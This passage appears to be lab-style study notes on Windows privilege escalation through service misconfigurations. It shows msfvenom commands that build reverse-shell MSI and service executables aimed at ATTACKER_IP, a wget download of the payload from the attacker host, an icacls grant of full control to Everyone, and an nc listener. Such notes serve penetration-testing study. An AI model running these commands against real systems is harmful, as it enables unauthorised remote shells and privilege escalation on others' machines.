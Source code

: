 You can start the reverse shell : 
```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.76.45 LPORT=LOCAL_PORT -f msi -o malicious.msi
```


## Abusing Service Misconfiguration
Windows services are run by SCM (Service Control Manager)   
Each service is associated with an executable (it implements some specific stuff to be launched by the SCM (not all executable can be run as services))  
Each service specify the user account it is run as  
Services have a Discretionary Access Control List (DACL), which indicates who has permission to edit it

Service configurations are stored here : `HKLM\SYSTEM\CurrentControlSet\Services\`


#### Insecure Permissions on Service Executable

We can use `sc` to ask the SCM infos and `qc` specify a service to ask for  
The goal is to retrieve the executable path and the user it runs as for example
```cmd
sc qc SERVICE_NAME
```

Example : We found a service that runs a .exe with modification right, let's exploit it
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
python3 -m http.server
```

```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```
```cmd
icacls WService.exe /grant Everyone:F

sc start SERVICE_NAME
sc stop ...
```
or in powershell (sc is aliased to Set-Content)
```powershell
sc.exe start SERVICE_NAME
sc.exe stop ...
```
```bash
nc -lvnp LOCAL_PORT 
```


#### Unquoted Service Paths

If the executable run by the service isn't quoted properly and contains spaces.  
The file is ambiguous. 
